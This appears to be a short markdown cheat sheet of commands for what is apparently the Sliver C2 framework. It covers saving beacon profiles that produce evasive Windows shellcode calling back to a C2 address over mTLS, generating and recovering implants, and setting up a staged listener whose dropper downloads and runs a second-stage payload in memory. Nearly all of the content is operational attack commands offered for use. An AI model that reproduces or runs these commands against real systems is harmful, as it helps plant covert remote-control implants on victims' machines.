 

## PROFILES
Save Profile:
```
profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --evasion --timeout 300 --seconds 5 --jitter 1 profile_name
```

Generate the beacon:
```
profiles generate --save . profile_name
```


> You can also generate session implants in the same way, just omit the beacon part. 


To show the Profiles:
```
profiles
```

To show the Implants:
```
implants
```

If u need to recover a deleted implant:

```
regenerate <name of implant>
```


## Post-Exploitation

###  Staging

- Stegeless = one single binary that connects back to u
- Staged = Dropper, its a smaller payload that when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute.

Create the Profile:
```
profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 profile_name
```

Create the Listener to the initial Callback:
```
stage-listener --url http://<C2 IP>:8080 --profile profile_name --prepend-size
```

> --prepend-size if you are going to use some as Metasploit/msfvenom stager
> Dont use the flag if you are going to write your own stager


